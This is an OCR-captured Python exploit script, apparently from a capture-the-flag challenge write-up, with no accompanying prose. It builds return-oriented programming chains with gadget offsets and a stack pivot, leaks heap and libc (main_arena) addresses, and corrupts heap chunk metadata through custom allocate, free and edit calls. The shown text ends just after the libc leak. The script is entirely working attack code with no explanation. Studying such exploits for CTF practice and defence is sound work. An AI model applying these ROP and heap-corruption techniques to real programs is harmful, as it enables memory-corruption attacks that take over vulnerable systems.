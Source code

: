 ```python 
leave = 0x737
printf = 0x6a8
strchange = 0x1000
chunk_list = 0x1520

time = 0
def rop(arr, number):
    return flat(number, arr, pop, number, 0x1000, read, leave)


def exp1():
    change()
    add(0, 0x20, 'a')
    add(1, 0x20, 'b')

    payload = flat(ret, ret, ret, ret, ret, ret, ret, pop, 0x653, 0x1000, read, leave)
    sla("choice>> ", "2")
    sa("idx:", payload)
    payload  = rop([pop, strchange, 0, printf], 0x500)
    sl(payload)
    ru("challenge")

syscall3 = 0x77
syscall4 = 0x86
syscall6 = 0xa4
syscall7 = 0xb6

def exp2():
    payload  = rop([pop, chunk_list, 0, printf], 0)
    sl(payload)
    recv()
    heap = u64(re(6, 2).ljust(8, b'\x00'))
    heap = heap - 0x480
    print(hex(heap))
    
    heap1 = heap + 0x480 
    heap2 = heap + 0x4d0

    
    def my_new(size):
        sl(rop([pop, size, 0, syscall3], 0))

    def my_dele(ptr):
        sl(rop([pop, ptr, 0, syscall4], 0))

    def my_show(ptr):
        sl(rop([pop, ptr, 0, syscall7], 0))
    
    def my_edit(ptr, size):
        sl(rop([pop, ptr, size, syscall6], 0))

    my_new(0x500)
    heap3 = heap + 0x520
    my_dele(heap3)

    my_edit(heap1, 0x100000004)
    payload = flat('a' * 0x20, 0, 0x21, heap3, 0x1000)
    sl(payload)

    my_show(heap3)
    ru("ontent: ")
    main_aeran = u64(re(6, 2).ljust(8, b'\x00'))
    print(hex(main_aeran))
```